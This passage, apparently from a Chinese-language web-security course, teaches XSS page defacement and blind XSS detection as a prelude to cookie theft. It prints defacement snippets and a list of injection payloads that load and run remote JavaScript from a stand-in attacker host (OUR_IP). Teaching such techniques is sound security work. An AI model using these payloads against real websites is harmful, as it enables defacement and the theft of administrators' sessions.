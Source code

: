 还可以利用 `jQuery` 函数更有效地实现相同的功能，或者在一行中更改多个元素的文本（为此，`jQuery`必须在页面源中导入该库）：

```javascript
$("#todo").html('New Text');
```

这为我们提供了各种选项来自定义网页上的文本，并进行微调以满足我们的需求。然而，由于黑客组织通常只会在网页上留下一条简单的消息，而不会留下任何其他内容，因此我们将使用 更改主页面的整个 HTML 代码`body`，`innerHTML`如下所示：

```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

我们可以`body`用 指定元素`document.getElementsByTagName('body')`，通过指定`[0]`，我们选择了第一个`body`元素，该元素应该会更改网页的整个文本。

## 盗窃Cookie

如果能够在受害者的浏览器上执行JavaScript代码，可以收集他们的Cookie并将其发送到自己的服务器。

我们将处理盲XSS漏洞。盲XSS漏洞发生在我们无法访问的页面上触发漏洞时，通常出现在只有特定用户（如管理员）才能访问的表单中。一些潜在例子包括：

- 联系表单
- 评论
- 用户详情
- 支持票据
- HTTP User-Agent头部

例如我们看到一个包含多个字段的用户注册页面，所以我们尝试提交一个测试用户，看看表单如何处理数据。

提交表单后，我们收到以下消息：

> 感谢您的注册。管理员将审核您的注册请求。

这表明我们无法看到我们的输入如何被处理或它在浏览器中的显示方式，因为它只会显示给管理员，在我们无法访问的管理面板中。在正常情况下，我们可以测试每个字段，但是，由于在这种情况下我们无法访问管理员面板，如果我们看不到输出是如何处理的，我们如何检测XSS漏洞呢？

为此，我们可以用：螚向我们的服务器发送HTTP请求的JavaScript负载。如果JavaScript代码被执行，我们将在我们的机器上获得响应，并且知道该页面确实存在漏洞。

但这会带来两个问题：
1. 我们怎么知道哪个特定字段是有漏洞的？因为任何字段都可能执行我们的代码，我们无法知道是哪一个。
2. 我们怎么知道使用什么XSS负载？

在HTML中，我们可以在`<script>`标签内编写JavaScript代码，也可以通过提供URL来包含远程脚本，如下所示：

```html
<script src="http://OUR_IP/script.js"></script>
```

因此，我们可以利用此功能执行托管在攻击机上的远程JavaScript文件。我们可以将请求的脚本名称从script.js更改为我们注入的字段名称，这样当我们在攻击机中收到请求时，可以识别执行脚本的易受攻击的输入字段：

```html
<script src="http://OUR_IP/username"></script>
```

如果我们收到对/username的请求，那么我们就知道username字段容易受到XSS攻击，依此类推。有了这个，我们可以开始测试各种加载远程脚本的XSS负载，看看哪些会向我们发送请求。以下是一些可以从PayloadsAllTheThings使用的示例：

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
